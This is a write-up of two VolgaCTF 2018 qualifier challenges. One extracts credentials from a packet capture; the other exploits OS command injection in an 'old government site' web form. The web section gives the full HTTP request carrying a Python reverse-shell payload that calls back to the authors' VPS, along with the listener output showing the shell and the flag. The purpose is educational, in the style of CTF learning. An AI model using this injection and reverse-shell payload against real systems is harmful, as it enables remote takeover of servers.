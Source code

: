 ```yaml
---
layout: post
title: "VolgaCTF 2018 qual writeups"
description: "Writeups and solutions to some of the VolgaCTF 2018 qualifying challenges"
categories: [Online CTF]
tags: [CTF, VolgaCTF]
author: peter_aaby


---
```

# Writeups included in this post
* Old Government Site (web 150 pts)
* Master (forensics 100 pts)

# Master (forensics 100 pts)
Solved by: Peter Aaby and Ryan Forbes
>We've found one of C&C servers that controlled recent DDoS attack, however we can't get credentials.
http://master.quals.2018.volgactf.ru:3333
Also, we've got a communication traffic dump between C&C servers.
capture.pcap
Can you get in?

This challenge starts out by analysing a pcap file with network traces from the C&C servers which constituse a lot of communication. To limit the amount of packets to analyse a filter is used as shown on the first line in below code snippet. First line uses 3 filters that represents the 3-way TCP handshake and the most interesting connections is shown on the second line starting with packet number 108. 

Using the "follow tcp" stream on packet 108 shows a lot of database trafic including usernames and passwords. The usernames and passwords cold potentially be used to access the website provided in the challenge and indeed testing with the one from below snippet gives a "no flag for you" response. There we are, somewhat on the right track but with a wall of text to exstract credentials from.

```
tcp.seq==1 && tcp.ack==1 && tcp.len
108	21.911274	46.161.54.111	95.213.194.243	MySQL	404	Response OK


B..P....Z"....A.......................................................L..Q....Z.....K............................ ..U......std.!.!...magicdb.BEGIN2...:..R....Z.....9...8.....m........magicdb..users...........|E..V..S....Z.....U.........m.................Blaze_Blaster2018.ipl7j4v3td499k2720s7j42o3f.... ..T....Z...............'......../.VB..U.
..Z"....A.......................................................L..V.
..Z.....K...8........................ ..U......std.!.!...magicdb.BEGIN@...:..W.
..Z.....9...q.....m........magicdb..users..............&P..X.
```

To quickly grab all credentials we use a regular expression as such as[_a-zA-Z0-9]+\\.[^\\.\|\W]{24,}+ and then copy/paste the matches to a textfile. The result is 499 lines with credentials to try against the website. We tried a lot of credentials without finding a flag and later realised that some of the credentials didnt work because the passwords were too long compared to the other users. 

Next step was therefore searching through the credentials again and try those with longer passwords. Interestingly, the admin credentials was amongst those with long credentials and we manually tested with the full password, then with the full password minus the last char, then again minus another and ... see below c",) 

```
orig credentials 	admin.aep7Woo9eef7quiedooPh0oowDgN 	> Invalid user
minus 1 character 	admin.aep7Woo9eef7quiedooPh0oowDg 	> Invalid user
minus 2 characters 	admin.aep7Woo9eef7quiedooPh0oowD 	> Invalid user
minus 3	characters 	admin.aep7Woo9eef7quiedooPh0oow 	> VolgaCTF{PLA1N_TEXT_REPLICATION_IS_@_B@D_THING}
```


# Old Goverment Site (web 150). 
Solved by: Peter Aaby and Charley Celice
>It's a old goverment web-site. Please, don't touch that. It works properly.
http://old-government-site.quals.2018.volgactf.ru:8080


Browsing to the website <http://old-government-site.quals.2018.volgactf.ru:8080> and clicking around shows that each page is requested through URI ID's using GET requests and the following table show's the clickable links and how they map to ID's. The ID's are mapped by simply browsing around and enumerating the site and its functionality.

|URI ID|Site content|
|------|------------|
|36|	Contact|
|33|	About |
|2|		Bulky waste collection|
|5|		Electric Vehicle charging infrastructure
|23|	Council Tax

Interestingly, the ID's are jumping quite a bit which could be hint that there's something to discover here and trying to access <http://old-government-site.quals.2018.volgactf.ru:8080/page?id=3> gives a page not found. Using Burp Suite, its easy and quick to enumerate these ID's using the intruder-function and adjusting the parameter with a payload of numbers starting at 1-1000 in increments of 1.

Below picture shows the result from Burp which is sorted by lenght and now reveals a URI ID=18 (top one) with a length of 5000. Browsing to the <http://old-government-site.quals.2018.volgactf.ru:8080/page?id=18> shows a page about "Private garbage company" with a form submission.
![Burp output after enumerating URI id's](/img/2018-03-25-oldGovBurp.png){:class="img-responsive"}

Right, so we can now post something to the website but its still uncertain what is happening with the content submitted in the form. Returning to Burp, capturing a form submission and sending this to the repeater allows for easy manipulation and understanding of the response caused by adjusting arguments, headers, id's and so on. Unfortunately, it was not possible so see anything from the response within Burp but trying to inject another OS command such as ping could possibly be observed on our VPS. 

As such, we setup a filter on our VPS to show only ICMP packets and started to fuzz the form submission with different OS command injection parameters such as **; \|  \$\{\} &&** and so on. Tadaaaa, a pipe was working and as can be seen below we managed to get the old goverment site to send a ping back to the VPS.

```
OS COMMAND INJECTION / FORM SUBMISSION TO WEBSITE
POST /page?id=18 HTTP/1.1
Host: old-government-site.quals.2018.volgactf.ru:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://old-government-site.quals.2018.volgactf.ru:8080/page?id=18
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Connection: close
Upgrade-Insecure-Requests: 1

site=|ping -c3 vps.enusec.org&description=d



RESPONSE ON VPS
...@enusec-vps:~# tcpdump icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on venet0, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
18:42:03.903740 IP enusec-vps > 188.246.233.28: ICMP echo reply, id 12015, seq 1, length 64
18:42:04.904734 IP 188.246.233.28 > enusec-vps: ICMP echo request, id 12015, seq 2, length 64
18:42:04.904768 IP enusec-vps > 188.246.233.28: ICMP echo reply, id 12015, seq 2, length 64
18:42:05.906336 IP 188.246.233.28 > enusec-vps: ICMP echo request, id 12015, seq 3, length 64
18:42:05.906362 IP enusec-vps > 188.246.233.28: ICMP echo reply, id 12015, seq 3, length 64

```

Natural next step, change the OS command injection to setup a reverse shell back to our VPS.
```html
POST /page?id=18 HTTP/1.1
Host: old-government-site.quals.2018.volgactf.ru:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://old-government-site.quals.2018.volgactf.ru:8080/page?id=18
Content-Type: application/x-www-form-urlencoded
Content-Length: 251
Connection: close
Upgrade-Insecure-Requests: 1

site=|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("vps.enusec.org",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'&&description=d
```

To grab the reverse shell we used a VPS with an open netcat listener and waited for the callback from the Old Goverment Website. Below is a dump of the output from the VPS showing a sucessfull callback from the website. We now have a reverse shell and the flag was found in the root directory.
```
...@enusec-vps:~# nc -lvp 7777
listening on [any] 7777 ...
188.246.233.28: inverse host lookup failed: Unknown host
connect to [176.126.247.225] from (UNKNOWN) [188.246.233.28] 42526
/bin/sh: 0: can't access tty; job control turned off
$ ls
app.rb
pages
public
views
$ ls -la
total 24
drwxr-xr-x 5 root root 4096 Mar 23 19:37 .
drwxr-xr-x 3 root root 4096 Mar 23 19:37 ..
-rw-r--r-- 1 root root  607 Mar 23 19:37 app.rb
drwxr-xr-x 2 root root 4096 Mar 23 19:37 pages
drwxr-xr-x 4 root root 4096 Mar 23 19:37 public
drwxr-xr-x 2 root root 4096 Mar 23 19:37 views
$ ls -la /var
total 44
drwxr-xr-x 11 root root   4096 Mar 16 19:00 .
drwxr-xr-x 22 root root   4096 Mar 23 19:08 ..
drwxr-xr-x  2 root root   4096 Mar 24 17:02 backups
drwxr-xr-x  8 root root   4096 Mar 16 19:04 cache
drwxr-xr-x 43 root root   4096 Mar 23 19:07 lib
drwxrwsr-x  2 root staff  4096 Apr 13  2016 local
lrwxrwxrwx  1 root root      9 Mar 16 19:00 lock -> /run/lock
drwxrwxr-x  9 root syslog 4096 Mar 25 16:02 log
drwxrwsr-x  2 root mail   4096 Mar 16 19:00 mail
drwxr-xr-x  2 root root   4096 Mar 16 19:00 opt
lrwxrwxrwx  1 root root      4 Mar 16 19:00 run -> /run
drwxr-xr-x  4 root root   4096 Mar 16 19:01 spool
drwxrwxrwt  3 root root   4096 Mar 25 06:43 tmp
$ ls /
bin
boot
dev
etc
flag
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
$ cat /flag 
VolgaCTF{dedicated_to_all_goverment_site}$ ^C  
```

